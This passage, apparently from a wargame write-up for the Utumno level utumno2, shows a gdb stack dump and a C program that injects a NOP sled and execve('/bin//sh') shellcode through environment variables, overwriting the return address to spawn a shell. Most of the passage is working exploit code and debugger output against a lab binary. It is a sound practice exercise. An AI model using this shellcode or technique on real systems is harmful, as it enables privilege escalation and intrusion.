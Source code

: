 Finally, we try to find a valid return address :

```nasm
utumno2@utumno:/tmp/ax$ gdb -q ./code
Reading symbols from ./code...(no debugging symbols found)...done.
(gdb) run
Starting program: /tmp/ax/code
process 32547 is executing new program: /utumno/utumno2

Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()

(gdb) x/200x $esp
0xffffde00:	0x00000000	0xffffde94	0xffffde98	0x00000000
0xffffde10:	0x00000000	0x00000000	0xf7fc5000	0xf7ffdc0c
0xffffde20:	0xf7ffd000	0x00000000	0x00000000	0xf7fc5000
0xffffde30:	0x00000000	0xe69060ed	0xdc68ecfd	0x00000000
0xffffde40:	0x00000000	0x00000000	0x00000000	0x08048350
0xffffde50:	0x00000000	0xf7fee710	0xf7e2a199	0xf7ffd000
0xffffde60:	0x00000000	0x08048350	0x00000000	0x08048371
0xffffde70:	0x0804844b	0x00000000	0xffffde94	0x08048490
0xffffde80:	0x080484f0	0xf7fe9070	0xffffde8c	0xf7ffd920
0xffffde90:	0x00000000	0x00000000	0xffffdf99	0xffffdf9a
0xffffdea0:	0xffffdf9b	0xffffdf9c	0xffffdf9d	0xffffdf9e
0xffffdeb0:	0xffffdf9f	0xffffdfa0	0xffffdfa1	0xffffdfd3
0xffffdec0:	0x00000000	0x00000020	0xf7fd7c90	0x00000021
0xffffded0:	0xf7fd7000	0x00000010	0x178bfbff	0x00000006
0xffffdee0:	0x00001000	0x00000011	0x00000064	0x00000003
0xffffdef0:	0x08048034	0x00000004	0x00000020	0x00000005
0xffffdf00:	0x00000008	0x00000007	0xf7fd9000	0x00000008
0xffffdf10:	0x00000000	0x00000009	0x08048350	0x0000000b
0xffffdf20:	0x00003e82	0x0000000c	0x00003e82	0x0000000d
0xffffdf30:	0x00003e82	0x0000000e	0x00003e82	0x00000017
0xffffdf40:	0x00000001	0x00000019	0xffffdf7b	0x0000001a
0xffffdf50:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffdf60:	0xffffdf8b	0x00000000	0x00000000	0x00000000
0xffffdf70:	0x00000000	0x00000000	0x37000000	0x30c66ef5
0xffffdf80:	0x70890c96	0x9ae995f3	0x69640792	0x00363836
0xffffdf90:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffdfa0:	0x90909000	0x90909090	0x90909090	0x90909090
0xffffdfb0:	0x90909090	0x90909090	0x50c03190	0x732f2f68
0xffffdfc0:	0x622f6868	0xe3896e69	0x53e28950	0x0bb0e189
0xffffdfd0:	0x410080cd	0x42414141	0x43424242	0x44434343
0xffffdfe0:	0x45444444	0x00454545	0x7574752f	0x2f6f6e6d
0xffffdff0:	0x6d757475	0x00326f6e	0x00000000	0x00000000
0xffffe000:	Cannot access memory at address 0xffffe000
```

Here I choose `0xffffdfb0` as it point on my NOP sled. Then we recompile the code with the proper return address :

```c
#include <unistd.h>

void main() {
    char *envp[] = {"", "", "", "", "", "", "", "", 
        "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80",
        "AAAABBBBCCCCDDDD\xb0\xdf\xff\xff",
        NULL};
    execve("/utumno/utumno2", NULL, envp);
}
```
